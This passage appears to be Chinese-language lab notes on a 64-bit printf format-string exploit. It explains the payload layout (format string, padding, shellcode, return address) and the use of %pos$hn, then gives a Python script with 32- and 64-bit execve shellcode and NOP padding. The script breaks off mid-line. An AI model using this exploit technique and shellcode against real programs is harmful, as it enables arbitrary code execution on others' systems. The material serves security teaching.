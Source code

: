 x64与x32的最大区别在于，x64地址最高位不可避免地会出现0字节。因此，可以将地址放在payload的末尾。

payload的结构为：fmt+padding+shellcode+padding+返回地址

为了简便地移动`printf`的指针，可以使用`%pos$hn`，`pos`的位置可以用试错法得到：`%pos$p`（`%p`用于打印64位长度的地址）。

另外，由于x64架构的地址有8位，打印出来的frame pointer指向的地址+8才为返回地址。

首先尝试修改target_variable的值为`0x00007fffffffe310`

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode
shellcode_32 = (
    "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
    "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
    "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
    "/bin/bash*"
    "-c*"
    # The * in this line serves as the position marker         *
    "/bin/ls -l; echo '===== Success! ======'                  *"
    "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
    "BBBB"   # Placeholder for argv[1] --> "-c"
    "CCCC"   # Placeholder for argv[2] --> the command string
    "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode
shellcode_64 = (
    "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
    "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
    "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
    "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
    "/bin/bash*"
    "-c*"
    # The * in this line serves as the position marker         *
    "/bin/ls -l; echo '===== Success! ======'                  *"
    "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
    "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
    "CCCCCCCC"   # Placeholder for argv[2] --> the command string
    "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_64

############################################################
#
#    Construct the format string here
#
############################################################
target_addr = 0x0000555555558010

# Put addresses in the end of payload
addrs_start = 0x400
content[addrs_start + 0: addrs_start +
        8] = (target_addr + 6).to_bytes(8, byteorder='little')
content[addrs_start + 8: addrs_start + 16] = ("abcdefgh").encode("latin-1")
content[addrs_start + 16: addrs_start +
```